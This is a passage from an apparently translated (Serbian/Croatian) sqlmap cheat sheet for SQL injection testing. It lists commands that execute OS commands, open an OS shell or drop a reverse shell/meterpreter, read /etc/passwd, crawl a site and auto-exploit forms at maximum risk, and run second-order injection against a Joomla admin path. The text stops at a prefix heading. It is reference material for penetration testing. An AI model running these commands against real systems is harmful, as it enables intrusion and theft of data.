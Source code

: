 ### Shell

### Školjka

```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```

### Čitanje fajla

```bash
--file-read=/etc/passwd
```

### Pretražite veb sajt pomoću SQLmap-a i automatski iskoristite ranjivosti

```bash
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

### Drugi redosled ubrizgavanja

```bash
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

[**Pročitajte ovaj post**](second-order-injection-sqlmap.md)**o tome kako izvršiti jednostavne i kompleksne injekcije drugog reda sa sqlmap-om.**

## Prilagođavanje Injekcije

### Postavljanje sufiksa

```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

### Prefiks
